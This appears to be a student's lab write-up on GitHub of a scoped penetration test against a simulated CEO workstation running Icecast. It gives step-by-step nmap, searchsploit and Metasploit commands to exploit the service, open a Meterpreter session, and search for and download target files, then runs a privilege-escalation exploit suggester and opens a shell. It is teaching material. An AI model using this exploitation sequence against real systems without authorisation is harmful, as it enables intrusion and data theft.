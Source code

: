 # Penetration_Test_Engagement
Internal penetration test on GoodCorp's CEO, Hans Gruber. The objective is to exploit any vulnerable software and find company files on the CEO's computer.

#### Background

- The CEO claims to have passwords that are long and complex and therefore unhackable.
- The penetration test objective is to access the CEO's computer, and using a Meterpreter session, to search for two files that contain the strings `recipe` and `seceretfile`.

#### Setup 

- Logged onto DVW10 virtual machine.
- Icecast server started to emulate the CEO's computer. 

#### Scope 

- Limited to CEO's workstation only. Only the CEO's IP address can be exploited.
- No other IP addresses to be scanned
- DOS and brute force attacks are prohibited
- No file deletions permissible
- No config changes permissible

#### Deliverable

- All findings were submitted via a report called 'Report.docx'. [Report.docx](Report.docx)

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: 
      First, I needed to work out what IP address the CEO's computer was using. I knew that the network was using the 192.168.0.? range.
      I used 
      **nmap -sn 192.168.0.0/24**
      
      Having ruled out IP addresses using the 4th octet being 192.168.0.1, 192.168.0.10, 192.168.0.21, 192.168.0.22 and 192.168.0.8, I decided to investigate **192.168.0.20**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1702.png)      
      
      Then I used nmap
      **nmap -sV "192.168.0.20"**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1701.png)

2. Start SearchSploit

    - Run the SearchSploit commands to show available Icecast exploits.
  
      > Answer: 
      command to run is:
      **searchsploit icecast**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1703.png)
      
3. Start Metasploit

    - Run the command that starts Metasploit:
  
      > Answer: 
      command to run is:
      **msfconsole**
      
4. Search for the Icecast module and load it for use

    - Run the command that starts Metasploit:
  
      > Answer: 
      command to run is:
      **search icecast**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1705.png)
      
    - Run the command to use the Icecast module:
    
      > Answer: 
      command to run from Metasploit is:
      **use 0 (0 being the first (and in this case only) module available to be run. I used the shortcut so I did’t need to type or 'copy and paste' the full module name).**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1706.png)
      
      Next I ran the command to show what options were available within the module:
      **show options**

      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1707.png)
      
5. Set the 'RHOST' to the target machine

    - Run the command that sets the 'RHOST':
  
      > Answer: 
      command to run is:
      **set RHOSTS 192.168.0.20**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1708.png)
      
6. Run the Icecast exploit

    - Run the command that runs the Icecast exploit:
  
      > Answer: 
      command to run is:
      **run (exploit will also work)**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1709.png)
      
    - Run the command that performs a search for the `secretfile.txt` on the target:
  
      > Answer: 
      command to run is:
      **search -f *secretfile.txt**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1710.png)
      
7. Now that a Meterpreter session is open:

    - Run the command to performs a search for the `recipe.txt` on the target:
  
      > Answer: 
      command to run is:
      **search -f *recipe.txt**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1711.png)
     
    - Run the command that exfiltrates the `recipe*.txt` file:
    
      > Answer: 
      command to run is:
      **download Drinks.recipe.txt**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1712.png)
      
      **I then used the ‘cat’ command to view the contents of both .txt files. The second txt file’s contents contains bank account details.**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1713.png)      
      
      **I then checked that the file has downloaded to my Kali VM:** (using **ls** command)
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1714.png)
      
8. Use Meterpreter's local exploit suggester to find possible exploits:

    - Check for common vulnerabilities:
  
      > Results: 
      I used Meterpreter to check for common vulnerabilities. 
      using the command
      **run post/multi/recon/local_exploit_suggester**
      
      Meterpreter discovered two possible vulnerabilities:
    
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1715.png)    
      
      **The two exploits of concern are
           **•	ikeext_service**
           **•	ms16-075**

      The ikeext services exploit module exploits a missing DLL loaded by the 'IKE and AuthIP Keyring Modules' (IKEEXT) service which runs as SYSTEM, and starts automatically in default installations of Vista-Win8. It requires an insecure bin path to plant the DLL payload.

      The ms16-075 exploit is a security update that resolves a vulnerability in Microsoft Windows that could allow elevation of privilege if an attacker logs on to the system and runs a specially crafted application.
       
#### Bonus
      
A. Run a Meterpreter post script that enumerates all logged on users.

    - **I googled meterpreter enumerate all logged on users**
    
      > Answer:
      **I found the following blog helpful, and I tested various meterpreter commands:**
      https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/
      
      Meterpreter discovered two possible vulnerabilities:
    
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1716.png)   
      
B. Open a Meterpreter shell and gather system information for the target:     

      > Answer: 
      command to run is:
      **shell**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1717.png)
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1718.png)
      
C. Run the command that displays the target's computer system information:     

      > Answer: 
      command to run is:
      **sudo lshw**   
